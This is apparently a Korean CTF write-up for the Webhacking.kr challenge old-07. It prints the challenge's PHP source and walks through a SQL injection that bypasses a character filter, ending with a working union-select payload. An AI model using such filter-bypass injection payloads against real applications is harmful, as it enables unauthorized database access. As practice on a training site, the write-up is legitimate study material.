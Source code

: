 ```yaml
---
title: ["[Webhacking.kr] old-07"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, mysql]
---
```

## Intro
```php
<?php
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");
if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
$db = dbconnect();
$rand=rand(1,5);
if($rand==1){
  $result=mysqli_query($db,"select lv from chall7 where lv=($go)") or die("nice try!");
}
if($rand==2){
  $result=mysqli_query($db,"select lv from chall7 where lv=(($go))") or die("nice try!");
}
if($rand==3){
  $result=mysqli_query($db,"select lv from chall7 where lv=((($go)))") or die("nice try!");
}
if($rand==4){
  $result=mysqli_query($db,"select lv from chall7 where lv=(((($go))))") or die("nice try!");
}
if($rand==5){
  $result=mysqli_query($db,"select lv from chall7 where lv=((((($go)))))") or die("nice try!");
}
$data=mysqli_fetch_array($result);
if(!$data[0]) { echo("query error"); exit(); }
if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
?>
```

쿼리의 result값 중 첫번째 값이 `2`이면 풀리는 문제다.  
중간에 randomization으로 sqli 방어를 시도했지만, 타겟으로 한 쿼리가 나올 때까지 요청을 보내면 된다.  

## Analysis

```
select lv from chall7 where lv=($go)
```

`2`, `-`, `+`, `from`, `_`, `=`, `\s`, `*`, `/` 는 사용하지 못한다.  

입력값을 `1^3`을 준다면 쿼리가 아래와 같이 완성된다.  
```
select lv from chall7 where lv=(1^3)
```  
`1 XOR 3`은 `2`이므로, 쉽게 결과가 나올 것이라고 생각했는데
`query error`라는 응답이 왔다.  
`query error`는 쿼리의 결과가 없을 때 발생한다.  
혹시 `^`가 필터링 되거나 문자열로 인식이 되나 싶어서 다른 입력값을 생각해보았다.  

입력값을 `0)or(lv>1`을 준다면 쿼리가 아래와 같이 완성된다.  
```
select lv from chall7 where lv=(0)or(lv>1)
```  
하지만 마찬가지로 `query error`라는 응답이 왔다.  

즉, 테이블에 `lv`이 `1`인 데이터 외에는 없다고 판단할 수 있다.

## Payload

union select문을 사용해서 결과에 2를 넣을 수 있다.  
```
/challenge/web-07/index.php?val=0)union(select(1^3)
```

쿼리는 아래와 같이 완성된다.  

```
select lv from chall7 where lv=0)union(select(1^3))
```